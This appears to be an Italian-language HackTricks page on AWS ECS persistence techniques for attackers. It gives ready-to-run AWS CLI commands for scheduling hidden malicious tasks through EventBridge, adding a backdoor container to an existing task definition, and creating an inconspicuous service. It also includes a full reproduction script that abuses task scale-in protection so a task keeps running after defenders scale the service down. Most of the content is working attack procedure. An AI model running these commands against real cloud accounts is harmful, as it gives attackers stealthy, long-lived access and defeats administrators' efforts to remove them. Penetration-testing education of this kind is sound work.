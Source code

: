 # AWS - ECS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## ECS

Per maggiori informazioni consulta:

{{#ref}}
../../aws-services/aws-ecs-enum.md
{{#endref}}

### Hidden Periodic ECS Task

> [!NOTE]
> TODO: Da testare

Un attacker può creare un hidden periodic ECS task usando Amazon EventBridge per programmare l'esecuzione periodica di un malicious task. Questo task può eseguire reconnaissance, exfiltrate data o mantenere persistence nell'account AWS.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
{
"Id": "malicious-ecs-task-target",
"Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
"RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
"EcsParameters": {
"TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
"TaskCount": 1
}
}
]'
```
### Backdoor Container in una ECS Task Definition esistente

> [!NOTE]
> DA TESTARE

Un attaccante può aggiungere un **stealthy backdoor container** in una ECS task definition esistente che viene eseguita insieme ai container legittimi. Il backdoor container può essere usato per la persistenza e per eseguire attività malevole.
```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
{
"name": "legitimate-container",
"image": "legitimate-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
},
{
"name": "backdoor-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": false
}
]'
```
### Servizio ECS non documentato

> [!NOTE]
> TODO: Test

Un attaccante può creare un **servizio ECS non documentato** che esegue un task maligno. Impostando il numero desiderato di task al minimo e disabilitando il logging, diventa più difficile per gli amministratori notare il servizio maligno.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```
### ECS Persistence via Task Scale-In Protection (UpdateTaskProtection)

Abusa di ecs:UpdateTaskProtection per impedire che i service tasks vengano fermati da scale‑in events e rolling deployments. Estendendo continuamente la protezione, un attacker può mantenere in esecuzione un task a lunga durata (per C2 o raccolta dati) anche se i defenders riducono desiredCount o pubblicano nuove revisioni del task.

Passaggi per riprodurre in us-east-1:
```bash
# 1) Cluster (create if missing)
CLUSTER=$(aws ecs list-clusters --query 'clusterArns[0]' --output text 2>/dev/null)
[ -z "$CLUSTER" -o "$CLUSTER" = "None" ] && CLUSTER=$(aws ecs create-cluster --cluster-name ht-ecs-persist --query 'cluster.clusterArn' --output text)

# 2) Minimal backdoor task that just sleeps (Fargate/awsvpc)
cat > /tmp/ht-persist-td.json << 'JSON'
{
"family": "ht-persist",
"networkMode": "awsvpc",
"requiresCompatibilities": ["FARGATE"],
"cpu": "256",
"memory": "512",
"containerDefinitions": [
{"name": "idle","image": "public.ecr.aws/amazonlinux/amazonlinux:latest",
"command": ["/bin/sh","-c","sleep 864000"]}
]
}
JSON
aws ecs register-task-definition --cli-input-json file:///tmp/ht-persist-td.json >/dev/null

# 3) Create service (use default VPC public subnet + default SG)
VPC=$(aws ec2 describe-vpcs --filters Name=isDefault,Values=true --query 'Vpcs[0].VpcId' --output text)
SUBNET=$(aws ec2 describe-subnets --filters Name=vpc-id,Values=$VPC Name=map-public-ip-on-launch,Values=true --query 'Subnets[0].SubnetId' --output text)
SG=$(aws ec2 describe-security-groups --filters Name=vpc-id,Values=$VPC Name=group-name,Values=default --query 'SecurityGroups[0].GroupId' --output text)
aws ecs create-service --cluster "$CLUSTER" --service-name ht-persist-svc \
--task-definition ht-persist --desired-count 1 --launch-type FARGATE \
--network-configuration "awsvpcConfiguration={subnets=[$SUBNET],securityGroups=[$SG],assignPublicIp=ENABLED}"

# 4) Get running task ARN
TASK=$(aws ecs list-tasks --cluster "$CLUSTER" --service-name ht-persist-svc --desired-status RUNNING --query 'taskArns[0]' --output text)

# 5) Enable scale-in protection for 24h and verify
aws ecs update-task-protection --cluster "$CLUSTER" --tasks "$TASK" --protection-enabled --expires-in-minutes 1440
aws ecs get-task-protection --cluster "$CLUSTER" --tasks "$TASK"

# 6) Try to scale service to 0 (task should persist)
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --desired-count 0
aws ecs list-tasks --cluster "$CLUSTER" --service-name ht-persist-svc --desired-status RUNNING

# Optional: rolling deployment blocked by protection
aws ecs register-task-definition --cli-input-json file:///tmp/ht-persist-td.json >/dev/null
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --task-definition ht-persist --force-new-deployment
aws ecs describe-services --cluster "$CLUSTER" --services ht-persist-svc --query 'services[0].events[0]'

# 7) Cleanup
aws ecs update-task-protection --cluster "$CLUSTER" --tasks "$TASK" --no-protection-enabled || true
aws ecs update-service --cluster "$CLUSTER" --service ht-persist-svc --desired-count 0 || true
aws ecs delete-service --cluster "$CLUSTER" --service ht-persist-svc --force || true
aws ecs deregister-task-definition --task-definition ht-persist || true
```
Impatto: Un task protetto rimane RUNNING nonostante desiredCount=0 e blocca le sostituzioni durante nuovi deployments, consentendo una persistenza furtiva e di lunga durata all'interno del servizio ECS.

{{#include ../../../../banners/hacktricks-training.md}}
